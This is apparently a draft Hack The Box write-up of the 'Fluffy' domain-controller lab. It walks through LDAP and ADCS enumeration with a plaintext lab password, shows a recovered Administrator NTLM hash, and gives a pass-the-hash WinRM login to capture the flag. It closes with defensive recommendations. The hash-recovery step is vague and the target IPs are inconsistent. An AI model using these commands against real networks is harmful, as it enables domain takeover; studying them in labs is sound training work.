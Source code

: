 # HTB: Fluffy - *Draft*

**Target:** `DC01.fluffy.htb`  
**Target IPs seen in logs:** `10.10.11.69`
**Attacker IP:** `10.10.14.2`

---

## TL;DR
AD enumeration + ADCS probing led to Administrator NTLM hash recovery, which was used with hash-based WinRM login to get an Administrator shell and capture the flag.

---

## Engagement Goals
- Map AD/LDAP and related services.  
- Enumerate ADCS (Certificate Services) and certificate templates.  
- Recover credentials / NTLM hashes for privileged accounts.  
- Use recovered artifacts to authenticate to WinRM and capture Administrator flag.

---

### Initial discovery
Start with a quick service scan to identify active hosts and likely AD endpoints.

```bash
# example nmap pattern found in logs
sudo nmap -sV -sC -A -Pn -oN logs/nmap-full 10.129.96.54
```

Focus on ports: 389 (LDAP), 135/139/445 (RPC/SMB), 5985/5986 (WinRM).

---

### LDAP / AD enumeration
Use available tooling to query LDAP/AD for domain objects and to discover ADCS.

```bash
# run LDAP enumeration with discovered user
netexec ldap dc01.fluffy.htb -u j.fleischman -p 'J0elTHEM4n1990!' -M adcs
```

Observed outputs (condensed):
```
LDAP    10.10.11.69:389  -> DC01 (Windows Server 2019)
[+] fluffy.htb\j.fleischman:J0elTHEM4n1990!
[*] Searching for PKI Enrollment Service objects (objectClass=pKIEnrollmentService)
[*] Found PKI Enrollment Server: DC01.fluffy.htb
[*] Enumerating certificate templates and issuance policies
```

Notes: `j.fleischman` credentials were present in the collected data and used to probe ADCS templates and CA settings.

---

### ADCS probing & template analysis
Query template ACLs and look for templates that allow machine or user enrollment with weak ACLs. In this run the ADCS enumeration returned template metadata and issuance policies; that activity produced useful artifacts leading to credential/hash recovery.

```
[*] Enumerating templates
[*] Checking issuance policies and template ACLs
[*] Identifying templates enabled for enrollment
```

(Exact template names and ACLs are in the raw appendix if you want the verbatim lines.)

---

### Extract NTLM hash
During enumeration a privileged hash was recovered for the Administrator account. The log contains this line:

```
[*] Got hash for 'administrator@fluffy.htb': aad3b435b51404eeaad3b435b51404ee:8da83a3fa618b6e3a00e93f676c92a6e
```

---

### Authenticate to WinRM using hash
Administrator hash to authenticate to WinRM with evil-winrm. The logs record the exact invocation used to get a shell.

```bash
# reproduced from logs
evil-winrm-py -i dc01.fluffy.htb -u administrator -H 8da83a3fa618b6e3a00e93f676c92a6e
```

Session excerpt:
```
evil-winrm-py PS C:\Users\Administrator\Documents>
... navigate to Desktop ...
PS C:\Users\Administrator\Desktop> cat root.txt
<root flag text>
```

That completed the box: Administrator shell obtained and flag captured.

---

## Artifacts & Evidence
- Domain user: `fluffy.htb\j.fleischman` with password `J0elTHEM4n1990!`.  
- Administrator NTLM hash: `aad3b435b51404eeaad3b435b51404ee:8da83a3fa618b6e3a00e93f676c92a6e`  
- WinRM hash-authentication command: `evil-winrm-py -i dc01.fluffy.htb -u administrator -H <hash>`  

---

## Housekeeping / Cleanup (lab)
- Deleted any uploaded files used during exploitation (the logs show `exploit.zip` was transferred at one point).  
- Removed temporary files from `C:\Windows\Temp` and user profile temp folders.  
- Checkd for created scheduled tasks / services (none explicitly recorded in the provided logs, but confirm before leaving the host).

---

## Recommendations & Lessons
- ADCS should be treated as high-risk: lock down template ACLs, limit who can request/enroll templates, and audit CA operations.  
- Monitor abnormal ADCS queries and unusual template reads — these are strong indicators of enumeration attempts.  
- Keep domain credential reuse low; a single user credential led to deep enumeration that ultimately yielded an Administrator artifact.

---

## Raw terminal appendix

### AD / LDAP / ADCS enumeration
```
netexec ldap dc01.fluffy.htb -u j.fleischman -p 'J0elTHEM4n1990!' -M adcs
LDAP        10.10.11.69     389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb)
[+] fluffy.htb\j.fleischman:J0elTHEM4n1990!
ADCS        10.10.11.69     389    DC01             [*] Starting search with search filter '(objectClass=pKIEnrollmentService)'
[*] Found PKI Enrollment Server: DC01.fluffy.htb
[*] Enumerating certificate templates and issuance policies
```

### NTLM hash discovery
```
[*] Got hash for 'administrator@fluffy.htb': aad3b435b51404eeaad3b435b51404ee:8da83a3fa618b6e3a00e93f676c92a6e
```

### WinRM hash login and flag
```
evil-winrm-py -i dc01.fluffy.htb -u administrator -H 8da83a3fa618b6e3a00e93f676c92a6e
evil-winrm-py PS C:\Users\Administrator\Desktop> cat root.txt
<root flag content>
```



